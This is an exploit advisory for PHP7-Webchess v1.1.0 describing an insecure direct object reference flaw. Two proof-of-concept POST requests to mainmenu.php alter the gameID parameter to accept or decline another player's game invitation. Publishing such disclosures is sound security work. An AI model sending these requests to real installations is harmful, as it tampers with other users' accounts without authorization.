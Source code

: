 # Exploit Title: PHP7-Webchess v1.1.0 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://github.com/halojoy/PHP7-Webchess
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHP7-Webchess
## Version: v1.1.0
## Exploit Description:
## PHP7-Webchess v1.1.0 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to decline or accept the invitation of game that is created for other players(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /mainmenu.php HTTP/1.1
...

response=declined&messageFrom=&gameID=3(CHANGE HERE)&ToDo=ResponseToInvite
```

```
POST /mainmenu.php HTTP/1.1
...

response=accepted&messageFrom=&gameID=3(CHANGE HERE)&ToDo=ResponseToInvite
```
